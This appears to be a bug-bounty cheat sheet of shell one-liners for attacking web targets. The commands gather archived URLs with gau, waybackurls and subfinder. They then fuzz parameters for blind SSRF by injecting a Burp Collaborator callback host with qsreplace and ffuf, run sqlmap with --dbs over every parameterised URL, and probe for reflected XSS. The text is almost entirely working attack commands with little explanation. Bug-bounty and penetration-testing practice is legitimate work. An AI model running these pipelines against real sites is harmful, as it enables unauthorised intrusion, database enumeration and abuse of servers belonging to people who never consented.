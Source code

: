 KaleShiri



TOOLS used for the exploitation:

gf (tomnomnom) — https://github.com/tomnomnom/gf
qsreplace(tomnomnom) — https://github.com/tomnomnom/qsreplace)
ffuf — https://github.com/ffuf/ffuf
gau(Corben) — https://github.com/lc/gau
waybackurls(tomnomnom) — https://github.com/tomnomnom/waybackurls




urls from web achieve using waybackurls and gau . Here is command i used for that
Command used:
gau -subs example.com
waybackurls example.com


grep out all the urls containing parameters and sort them uniquely and save it in file. So that can fuzzing for blind ssrf
Command used:
gau -subs example.com; subfinder -d example.com -silent |waybackurls | gf ssrf | sort -u >> testblindssrf.txt


i used qsreplace to replace all parameter value with burpcollaborator server payload and fuzz it with ffuf.
.Command used:
cat testblindssrf.txt | qsreplace “http://4v0er435p7gx4lx6432c7bdylprff4.burpcollaborator.net" >> ssrfuzz.txt
ffuf -c -w ssrfuzz.txt -u FUZZ -t 200



waybackurls google.com | grep "\\.js" | uniq | sort


--------------------------------------------------------------------------------------
Automate finding ssrf:
waybackurl targetme.com >> blindssrftesturl.txt
gau -subs targetme.com >> blindssrftesturl.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
After Getting all URLS we will sort all the URL and resolve it remove false positive:
cat blindssrftesturl.txt | sort -u |anew | httpx |tee -a prefinal_ssrftesturl.txt
cat prefinal_ssrftesturl.txt | gf ssrf >> final_ssrftesturl.txt
cat final_ssrftesturl.txt |qsreplace “Burp collaborator server” >> ssrf_auto-ffuf.txt
ffuf -c -w ssrf_auto-ffuf.txt -u FUZZ



----------------------------------------------------------------------------------------
Automate SQLi
waybackurl targetme.com >> blindssrftesturl.txt
gau -subs targetme.com >> blindssrftesturl.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
cat vul1.txt vuln2.txt vul3.txt | grep “=” | sort -u | grep “?” | httpx -silent >> FUZZvul.txt
sqlmap -m FUZZvul.txt --random-agent --dbs 


--------------------------------------------------------------------------------------------
reflected xss
gau -subs example.com >> vul1.txt
waybackurls example.com >> vul2.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
cat vul1.txt vuln2.txt vul3.txt | grep “=” | sort -u | grep “?” | qsreplace “xsst<>”| httpx -silent >> FUZZvul.txt
xargs -a /root/magicparameter/ssrf.txt -I@ bash -c ‘for url in $(cat FUZZvul.txt); do echo “$url&@=xsst<>”;done’ | httpx -http-proxy http://127.0.0.1:8080


------------------------------------------------------------------------------------------
gau -subs example.com >> vul1.txt
waybackurls example.com >> vul2.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
cat vul1.txt vuln2.txt vul3.txt | grep “=” | sort -u | grep “?” | httpx -silent >> FUZZvul.txt

---------------------------------------------------------------------------------------

shodan domain DOMAIN TO BOUNTY | awk '{print $3}' | httpx -silent | nuclei -t /home/ofjaaah/PENTESTER/nuclei-templates/
